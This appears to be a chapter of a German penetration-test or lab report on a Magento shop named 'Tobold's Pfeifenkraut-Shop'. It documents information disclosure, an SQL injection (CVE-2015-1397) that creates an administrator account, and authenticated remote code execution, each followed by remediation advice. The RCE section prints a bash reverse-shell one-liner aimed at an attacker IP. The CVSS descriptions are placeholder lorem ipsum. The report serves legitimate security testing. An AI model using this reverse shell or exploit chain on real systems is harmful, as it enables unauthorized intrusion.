\chapter{Tobold's Pfeifenkraut-Shop}

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/screenshots/09_pfeifenkraut_shop.png}
    \caption{Webanwendung Tobold's Pfeifenkrautshop}
    \label{fig:07_pfeifenkraut_shop}
\end{figure}
\newpage


\cvss{av=network, ac=low, pr=none, ui=required, s=changed, c=high, i=high, a=high}
\cvssdescription{Etiam risus sapien, ornare at dui ut, semper eleifend arcu. In fermentum felis ut ornare convallis. Donec ultrices condimentum neque ut semper.}

\section{\makecvssbadge Tobold's Pfeifenkraut-Shop: Informationspreisgabe}
\cvssaddtosummary{Tobold's Pfeifenkraut-Shop: Informationspreisgabe}

\subsection*{Proof of concept}
Über den Header der Webanwendung ist ersichtlich, dass es sich bei der Webanwendung um eine Magento Anwendung handelt. Durch das aktivierte Directory Listing kann außerdem abgeschätzt werden, wann das Projekt erstellt wurde und um welche Magento-Version es sich handelt.

\subsection*{Empfehlungen}
\begin{itemize}
    \item Informationen über die verwendeten Technologien von der Webanwendung entfernen, Beispielsweise das Magento-Logo im Header entfernen
    \item Das Directory-Listing deaktivieren und nur die nötigen Dateien erreichbar machen.
\end{itemize}

\cvss{av=network, ac=low, pr=none, ui=required, s=changed, c=high, i=high, a=high}
\cvssdescription{Etiam risus sapien, ornare at dui ut, semper eleifend arcu. In fermentum felis ut ornare convallis. Donec ultrices condimentum neque ut semper.}

\section{\makecvssbadge Tobold's Pfeifenkraut-Shop: SQL Injection}
\cvssaddtosummary{Tobold's Pfeifenkraut-Shop: SQL Injection}

\subsection*{Proof of concept}
Durch die gewonnen Informationen über das verwendete CMS und die ungefähre Versionsnummer konnten bekannte Schwachstellen ermittelt werden. Mit der Schwachstelle CVE-2015-1397 kann ein Account mit Administratorrechten erstellt werden. Diese Schwachstelle nutzt eine SQL-Injection am Endpunkt \texttt{/admin/Cms\_Wysiwyg/directive/index/} aus. Über den Filter-Parameter kann der Schadcode für die Stacked-SQL-Injection übergeben werden. Dadurch wird eine weitere SQL-Query zur Erstellung des Administrator-Accounts mitgegeben und ausgeführt. Der angepasste Code zur Schwachstelle befindet sich in \autoref{listing:appendix:pfeifenkrautshop_SQL}.


\subsection*{Empfehlungen}
\begin{itemize}
    \item Aktualisieren der Magento-Installation, welche den Patch für diese Schwachstelle beinhaltet.
    \item Regelmäßige Updates sind außerdem hilfreich um zukünftig ähnliche Sicherheitsprobleme zu umgehen, da dadurch Sicherheitsupdates regelmäßig durchgeführt werden.
    \item Eingabevalidierung der Benutzereingaben kann ebenfalls Injection-Angriffe wie diese verhindern.
    \item Im Speziellen für SQL-Injections ist das Verwenden von Paramterized-Queries sinnvoll, da dadurch solche Stacked-SQL-Injection Angriffe verhindert werden können.
\end{itemize}

\cvss{av=network, ac=low, pr=none, ui=required, s=changed, c=high, i=high, a=high}
\cvssdescription{Etiam risus sapien, ornare at dui ut, semper eleifend arcu. In fermentum felis ut ornare convallis. Donec ultrices condimentum neque ut semper.}

\section{\makecvssbadge Tobold's Pfeifenkraut-Shop: Authenticated Remote Code Execution}
\cvssaddtosummary{Tobold's Pfeifenkraut-Shop: Authenticated Remote Code Execution}

\subsection*{Proof of concept}
Mittels eine weitere bekannten Schwachstelle für Magento-Installationen unterhalb der Version 1.9 können Systembefehle auf dem Webserver ausgeführt werden. Um diese Schwachstelle ausnutzen zu können müssen Anmeldedaten für einen Nutzer mit Administratorzugriff vorliegen. Die Erstellung eines solchen Accounts wurde im vorherigen Kapitel erläutert. Damit der Exploit funktioniert muss zunächst eine Bestellung aufgegeben werden und diese durch einene Admin bestätigt werden. Anschließend kann das Python-Skript, welches die Schwachstelle ausnutzt verwendet werden. Das angepasste Python-Skript befindet sich in \autoref{listing:appendix:pfeifenkrautshop_RCE}.  Die Schwachstelle nutzt eine unsicheres PHP-Skript aus. Dieses Skript behandelt PHP-Objekte unsicher, sodass eine PHP Object Injection möglich ist. Dafür wird eine POP Chain übergeben, welche bei der Deserialisierung der Objekte einen übergebenen System-Befehl ausführt. Wird dieser System-Befehl
so gewählt wie in \autoref{listing:bash-reverse-shell} kann eine Reverse Shell initiiert werden. Der passende Netcat-Listener, der auf dem Angreifersystem ausgeführt wird, für diese Reverse Shell ist in \autoref{listing:netcat-listener} dargestellt.

\begin{listing}[!ht]
\begin{minted}{bash}
bash -c 'bash -i >& /dev/tcp/10.0.32.5/9001 0>&1
\end{minted}
\caption{Bash Reverse Shell}
\label{listing:bash-reverse-shell}
\end{listing}

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/proofs/07_pfeifenkraut_shop_proof.png}
    \caption{Proof für die Webanwendung Tobold's Pfeifenkrautshop}
    \label{fig:07_pfeifenkraut_shop_proof}
\end{figure}

\subsection*{Empfehlungen}
\begin{itemize}
    \item Updaten der Magento-Version. In den aktuellen Versionen ist die Sicherheitslücke geschlossen.
    
\end{itemize}